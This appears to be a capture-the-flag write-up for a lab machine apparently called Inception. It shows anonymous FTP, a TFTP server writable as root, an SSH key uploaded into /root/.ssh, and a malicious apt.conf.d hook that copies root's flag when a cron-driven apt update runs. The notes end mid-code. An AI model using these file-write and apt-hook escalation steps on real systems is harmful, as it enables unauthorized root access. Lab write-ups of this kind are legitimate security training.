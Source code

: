 ```
Possible to log in with anonymous without a password. Limited access to file system, but no clear way to root it.
However, there is a configuration file for TFTP which is also running. For some specific reason

``` 
-rw-r--r--    1 0        0             118 Nov 06 05:46 tftpd-hpa
```

```
ftp 192.168.0.1
ls -la
cat tftpd-hpa 
# /etc/default/tftpd-hpa

TFTP_USERNAME="root"
TFTP_DIRECTORY="/"
TFTP_ADDRESS=":69"
TFTP_OPTIONS="--secure --create"
```


Let's try something nice.

```
root@Inception:~/kqrk# tftp
tftp> connect 192.168.0.1
tftp> put kikka.pub /root/.ssh/id_rsa.pub
Sent 397 bytes in 0.0 seconds
tftp> quit
root@Inception:~/kqrk# ssh -i kikka root@192.168.0.1
The authenticity of host '192.168.0.1 (192.168.0.1)' can't be established.
```

TFTP allows writing a ssh key to /root/.ssh/authorized_keys but the file system access rights are not correct and SSH refuses login. GRAAAAH!


But. Logs reveal that apt-get is running every five minutes. Smuggle some update through TFTP like this:

```
put 02fortitude /etc/apt/apt.conf.d/02fortitude
Dpkg::Pre-Install-Pkgs {"cat /root/root.txt > /root/.ssh/kikka.txt"; "chmod a+r /root/.ssh/kikka.txt"};

*/5 *   * * *   root    apt update 2>&1 >/var/log/apt/custom.log
30 23   * * *   root    apt upgrade -y 2>&1 >/dev/null


E: Problem executing scripts APT::Update::Post-Invoke-Success 'test -x /usr/bin/apt-show-versions || exit 0 ; apt-show-versions -i'
```

Hmm. https://unix.stackexchange.com/questions/226993/whats-the-difference-between-dpkgpost-invoke-and-dpkgpost-invoke-success

APT::Update::Post-Invoke, which is invoked after updates, successful or otherwise (after the previous hook in the former case).

```
      RunScripts("APT::Update::Pre-Invoke");
